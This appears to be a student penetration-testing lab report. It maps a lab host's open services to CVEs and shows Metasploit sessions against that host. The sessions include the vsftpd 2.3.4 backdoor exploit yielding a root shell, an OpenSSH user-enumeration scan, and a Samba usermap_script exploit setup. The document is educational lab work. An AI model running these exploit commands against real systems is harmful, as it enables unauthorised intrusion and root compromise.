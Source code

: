 | 17       | 3306 | mysql            | MySQL 5.0.51a-3ubuntu5      | CVE-2016-6662, EDB-ID: 41761, EDB                |       |
| 18       | 5432 | postgresql       | PostgreSQL DB 8.3.0 - 8.3.7 | None                                             |       |
| 19       | 5900 | vnc              | VNC (protocol 3.3)          | None                                             |       |
| 20       | 6000 | X11              | (access denied)             | None                                             |       |
| 21       | 6667 | irc              | UnrealIRCd 3.2.8.1          | CVE-2010-2075, EDB-ID: 13853, EDB                |       |
| 22       | 3632 | tcp              | DistCC Daemon               | CVE-2004-2687, EDB-ID: 39552, EDB                |       |

**List of Vulnerable Services**
Students identify the TOP five services most vulnerable to CVE ([NVD](https://nvd.nist.gov/vuln-metrics/cvss))

**Table 2**

| Port  | Protocol | Vulnerable Service | Vulnerable Service Details                      |
|-------|----------|--------------------|-------------------------------------------------|
| 21    | tcp      | vsftpd 2.3.4       | CVE-2011-2523                                   |
| 22    | tcp      | OpenSSH 4.7p1      | CVE-2008-0166, CVE-2016-20012                   |
| 80    | tcp      | Apache 2.2.8       | CVE-2009-1195, CVE-2009-1890                    |
| 139 445 | tcp    | Samba smbd 3.X-4.X | CVE-2007-2447                                   |
| 6667  | tcp      | UnrealIRCd 3.2.8.1 | CVE-2010-2075                                   |
| 3632  | tcp      | DistCC Daemon      | CVE-2004-2687                                   |

### Explanation of Vulnerabilities and Exploits

**Vulnerability [First]: vsftpd 2.3.4 (Port 21)**
CVE-2011-2523: vsftpd 2.3.4 has a backdoor that allows attackers to execute arbitrary code.

**Evidence of Exploit:
**
```shell
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 192.168.10.5
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
[*] 192.168.10.5:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.10.5:21 - USER: 331 Please specify the password.
[+] 192.168.10.5:21 - Backdoor service has been spawned handling...
[+] 192.168.10.5:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.10.4:45111 -> 192.168.10.5:6200) at 2024-05-18 16:01:24 -0400

Vulnerability [Second]: OpenSSH 4.7p1 (Port 22)
CVE-2008-0166: OpenSSH has a vulnerability in key generation.
CVE-2016-20012: OpenSSH user enumeration vulnerability.

Evidence of Exploit:msf6 > use auxiliary/scanner/ssh/ssh_enumusers
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 192.168.10.5
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /path/to/userlist.txt

Vulnerability [Third]: Samba smbd 3.X-4.X (Port 139 445)
CVE-2007-2447: Samba versions 3.0.0 to 3.0.25rc3 have a command injection vulnerability.

Evidence of Exploit:
msf6 > use exploit/multi/samba/usermap_script
msf6 exploit(multi/samba/usermap_script) > set RHOST 192.168.10.5
msf6 exploit(multi/samba/usermap_script) > set RPORT 445
msf6 exploit(multi/samba/usermap_script) > set LHOST 192.168.10.4
```